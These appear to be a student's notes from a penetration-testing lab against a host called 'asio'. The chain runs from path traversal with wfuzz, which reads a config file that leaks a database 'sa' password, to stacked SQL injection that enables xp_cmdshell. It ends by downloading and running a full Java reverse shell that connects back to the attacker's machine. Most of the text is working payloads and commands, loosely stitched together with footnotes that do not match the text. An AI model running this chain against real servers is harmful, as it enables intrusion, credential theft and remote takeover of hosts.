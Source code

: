 ##### ASIO

In the previous Learning Unit, we identified the /specials?menu=winter.html endpoint

We'll need to add several instances of "../" to our payload to traverse back to the base directory of the server. In Repeater, let's change "web200.html" to "../../../../../../../windows/win.ini" and click Send.

Next, let's build a list of file names. We are searching for application.properties or application.yml. Since the file could be in the current directory or a /config subdirectory, we'll add /config to our new file.

```
nano paths.txt
cat paths.txt
../
../../
../../../
../../../../
../../../../../
../../../../../../
../../../../../../../
```

```
nano files.txt
cat files.txt
application.properties
application.yml
config/application.properties
config/application.yml
```

```
wfuzz -w paths.txt -w files.txt --hh 0 http://asio/specials?menu=FUZZFUZ2Z

curl http://asio/specials?menu=../config/application.properties

```

We can verify this with a simple stacked query, such as selecting the SQL Server version.

In Repeater, let's update the id parameter to "4;SELECT @@VERSION;". We'll need to encode the space as a plus sign (+) before we click Send.

```
cat tables.txt
newsletter
newsletters
subscription
subscriptions
newsletter_subscription
newsletter_subscriptions
```

```
insert into TABLE_NAME values('EMAIL_VALUE')
```

wfuzz -w tables.txt -w tables.txt -m zip -b JSESSIONID=C0C3B7B39FB409EC20E31AF0B715C801 -d "" "http://asio/admin/message/delete?id=4;insert+into+FUZZ+values('FUZ2Z')"

The application.properties file contains some additional information that we will find useful.

```
spring.datasource.username=sa
spring.datasource.password=MqFuFWUGNrR3P4bJ
```
Based on the file, the application may be connecting to the database as the "sa" user. The "sa" user in SQL Server is typically the System Administrator account and has elevated permissions on the server, including the ability to change configuration settings.

Most importantly to us, if our SQL injection payloads are executed under the "sa" user, we should be able to enable and use xp_cmdshell.

First, we need a payload that enables advanced options. We can use Microsoft's documentation1 as the basis of our payload.

```
EXECUTE sp_configure 'show advanced options',1; RECONFIGURE;
```
Next, we'll enable xp_cmdshell. Again, Microsoft's documentation provides the basis of our payload.

```
EXECUTE sp_configure 'xp_cmdshell',1; RECONFIGURE;
```

We'll start a netcat listener at port 8000.

```
kali@kali:~$ nc -nvlp 8000
listening on [any] 8000 ...
Listing 18 - Starting a netcat listener
```

Now that our listener is running, we'll update our SQL injection payload to call curl with xp_cmdshell and pass in our Kali's IP address and the port of our listener. Here's our base SQL injection payload:

```
EXEC xp_cmdshell 'curl http://192.168.48.2:8000/itworked'; 
```
1
(Microsoft, 2022), https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15 ↩︎

Java Reverse shell:

```
String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Hello world:

```
class HelloWorldApp {
    public static void main(String[] args) {
        System.out.println("Hello World!"); // Display the string.
    }
}
```

```
cat RevShell.java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

class RevShell {
    public static void main(String[] args) throws exception {
        String host="192.168.48.2";
        int port=4444;
        String cmd="cmd.exe";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    }
}
```

Download revshell:

```
EXEC+xp_cmdshell+'curl+http://192.168.48.2:8000/RevShell.java+--output+%temp%/RevShell.java'; 
```

SQLi payload to run rev shell:

```
EXEC xp_cmdshell 'java %temp%/RevShell.java';
```

1
(Microsoft, 2007), https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=HackTool:Win32/NetCat&ThreatID=2147593673 ↩︎

2
(Swissky, et al., 2022), https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#java-alternative-1 ↩︎

3
(Wikipedia, 2022), https://en.wikipedia.org/wiki/"Hello,_World!"_program ↩︎

4
(Oracle, 2021), https://docs.oracle.com/javase/tutorial/getStarted/application/index.html ↩︎

5
(Oracle, 2021), https://docs.oracle.com/javase/tutorial/essential/exceptions/index.html ↩︎

6
(Oracle, 2021), https://docs.oracle.com/javase/tutorial/essential/exceptions/catchOrDeclare.html ↩︎

7
(Oracle, 2021), https://docs.oracle.com/javase/tutorial/essential/exceptions/throwing.html ↩︎

8
(Wikipedia, 2021), https://en.wikipedia.org/wiki/Temporary_folder ↩︎

9
(Oracle, 2022), https://openjdk.java.net/jeps/330 ↩︎



